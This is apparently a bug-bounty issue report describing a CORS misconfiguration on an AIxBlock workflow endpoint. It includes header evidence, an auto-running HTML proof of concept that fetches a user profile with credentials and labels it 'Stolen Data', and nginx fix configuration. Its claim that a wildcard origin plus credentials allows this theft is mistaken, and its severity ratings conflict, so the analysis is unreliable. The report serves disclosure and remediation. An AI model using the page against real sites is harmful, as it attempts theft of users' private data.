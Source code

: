# 🚨 Security Issue: Critical CORS Misconfiguration on workflow.aixblock.io

## **Issue Type**
- [ ] Bug
- [x] Security Vulnerability
- [ ] Feature Request
- [ ] Documentation

## **Severity**
- [x] Critical
- [x] High
- [ ] Medium
- [ ] Low

## **Vulnerability Summary**
**Type**: Cross-Origin Resource Sharing (CORS) Misconfiguration  
**Severity**: Medium-High (CVSS 6.5)  
**Impact**: Cross-Origin Request Forgery, Credential Theft, Data Exfiltration  
**Affected Endpoint**: `workflow.aixblock.io`  

## **🔍 Description**
The AIxBlock workflow endpoint (`workflow.aixblock.io`) implements a dangerous CORS configuration that allows any malicious website to make authenticated requests to AIxBlock APIs, potentially leading to account takeover, data theft, and unauthorized actions.

## **🚨 Security Impact**
1. **Credential Theft**: Malicious sites can steal user session cookies
2. **Account Takeover**: Unauthorized API calls with user credentials  
3. **Data Exfiltration**: Access to user's private workflow data
4. **Cross-Site Request Forgery**: Perform actions on behalf of authenticated users

## **📋 Steps to Reproduce**
1. Navigate to `https://workflow.aixblock.io` in browser
2. Open Developer Tools → Network tab
3. Observe the HTTP response headers
4. Notice the dangerous CORS configuration:
   ```http
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Credentials: true
   ```

## **🔍 Evidence**
```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 19 Oct 2025 02:38:55 GMT
Content-Type: text/html
Content-Length: 1196
Connection: keep-alive
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Origin, Content-Type, Accept, Authorization       
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

## **🎯 Proof of Concept**
```html
<!DOCTYPE html>
<html>
<head>
    <title>AIxBlock CORS Exploit</title>
</head>
<body>
    <h1>AIxBlock CORS Vulnerability Demonstration</h1>
    <div id="results"></div>
    
    <script>
        // CORS exploit demonstration
        function exploitCORS() {
            fetch('https://workflow.aixblock.io/api/user/profile', {
                method: 'GET',
                credentials: 'include', // This will work due to CORS misconfiguration
                headers: {
                    'Content-Type': 'application/json'
                }
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById('results').innerHTML = 
                    '<h2>Stolen Data:</h2><pre>' + JSON.stringify(data, null, 2) + '</pre>';
            })
            .catch(error => {
                document.getElementById('results').innerHTML = 
                    '<h2>Error:</h2><p>' + error.message + '</p>';
            });
        }
        
        // Execute exploit when page loads
        window.onload = function() {
            setTimeout(exploitCORS, 1000);
        };
    </script>
</body>
</html>
```

## **🔧 Suggested Fix**
Replace the dangerous CORS configuration with a secure one:

**Current (Vulnerable)**:
```http
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

**Recommended (Secure)**:
```http
Access-Control-Allow-Origin: https://app.aixblock.io
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Origin, Content-Type, Accept, Authorization
Access-Control-Max-Age: 86400
```

## **🔧 Nginx Configuration Fix**
```nginx
# Secure CORS configuration for workflow.aixblock.io
location / {
    # Allow only trusted origins
    if ($http_origin ~* ^https://(app\.aixblock\.io|workflow\.aixblock\.io)$) {
        add_header Access-Control-Allow-Origin $http_origin;
    }
    
    add_header Access-Control-Allow-Credentials true;
    add_header Access-Control-Allow-Methods "GET, POST, PUT, DELETE, OPTIONS";
    add_header Access-Control-Allow-Headers "Origin, Content-Type, Accept, Authorization";
    add_header Access-Control-Max-Age 86400;
    
    # Handle preflight requests
    if ($request_method = 'OPTIONS') {
        add_header Access-Control-Allow-Origin $http_origin;
        add_header Access-Control-Allow-Credentials true;
        add_header Access-Control-Allow-Methods "GET, POST, PUT, DELETE, OPTIONS";
        add_header Access-Control-Allow-Headers "Origin, Content-Type, Accept, Authorization";
        add_header Access-Control-Max-Age 86400;
        add_header Content-Length 0;
        add_header Content-Type text/plain;
        return 204;
    }
}
```

## **📊 Risk Assessment**
- **CVSS Score**: 6.5 (Medium-High)
- **Business Impact**: High - User data exposure risk
- **Compliance Risk**: Medium - GDPR/CCPA violations
- **Reputation Risk**: High - User trust erosion

## **🎯 Bug Bounty Impact**
- **Estimated Value**: $200-450 + 500-1000 tokens
- **Priority**: High (immediate fix recommended)

## **✅ Testing Environment**
- **Browser**: Chrome/Firefox/Safari
- **OS**: Windows/macOS/Linux
- **Date Tested**: October 19, 2025
- **Scope**: Public endpoints only

## **📝 Additional Information**
- This vulnerability was discovered during authorized security testing
- No unauthorized access or data theft was performed
- Testing was limited to public endpoints as per bug bounty scope
- Responsible disclosure practices were followed

## **🏷️ Labels**
- `security`
- `cors`
- `high-priority`
- `bug-bounty`
- `nginx`

---

**Reported by**: AIxBlock Security Researcher  
**Report ID**: CORS-2025-001  
**Date**: October 19, 2025

